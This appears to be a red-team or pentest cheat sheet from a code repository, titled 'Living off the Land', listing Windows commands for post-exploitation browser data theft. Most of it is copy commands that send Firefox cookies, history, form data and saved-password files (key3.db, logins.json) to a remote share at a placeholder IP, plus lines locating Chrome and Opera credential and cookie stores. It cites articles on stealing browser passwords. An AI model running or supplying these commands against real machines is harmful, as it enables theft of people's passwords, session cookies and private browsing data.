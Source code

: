 # Living off the Land

## 01 - Command Prompt

### 1.1 - Firefox Profiles

Copy all SQLite files.

```
C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles*.sqlite \\<IP>\<share_name>\

C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles\*.sqlite \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\*.db \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\*.json \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\*.dat \\<IP>\<share_name>\
```

The database files contains bookmarks, downloads and browsing history, site-specific preferences (permissions), autocomplete history, and cookies.

```
C:\> copy %appdata%\Mozilla\Firefox\Profiles\places.sqlite \\<IP>\<share_name>\

copy %appdata%\Mozilla\Firefox\Profiles\permissions.sqlite \\<IP>\<share_name>\

copy %appdata%\Mozilla\Firefox\Profiles\formhistory.sqlite \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\cookies.sqlite \\<IP>\<share_name>\
```

Contains saved passwords.

```
C:\> copy %appdata%\Mozilla\Firefox\Profiles\key3.db \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\logins.json \\<IP>\<share_name>\
```

Security certificate settings.

```
C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles\cert8.db \\<IP>\<share_name>\
```

Search engines.

```
C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles\search.json.mozlz4 \\<IP>\<share_name>\
```

Personal dictionary.

```
C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles\persdict.dat \\<IP>\<share_name>\
```

### 1.2 - Google Chrome

TODO: Fill this information

Contains encrypted SQLite files that stores the credentials.

```
C:\> dir %appdata%\Local Settings\Application Data\Google\Chrome\User Data\Default\Web Data\*.sqlite
```

### 1.3 - Opera

```
C:\> dir %APPDATA%\Application Data\Opera\Opera\profile\wand.dat
```

## 02 - PowerShell

```
PS C:\> '$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Cookies' | Get-Item
```

---
## References

- [Retrieving Data From Thunderbird and Firefox](https://thevivi.net/blog/pentesting/2020-09-06-retrieving-data-from-thunderbird-and-firefox/)

- [FareedFauzi Resources Windows Post Exploitation](https://fareedfauzi.gitbook.io/oscp-notes/windows-post-exploitation/resources-windows-post-exploitation)

- [Mango PDF Zone Stealing Chrome Cookies Without a Password](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password)

- [RedTeamRecipe: Methods for Stealing Password in Browser](https://blog.redteamguides.com/methods-for-stealing-password-in-browser)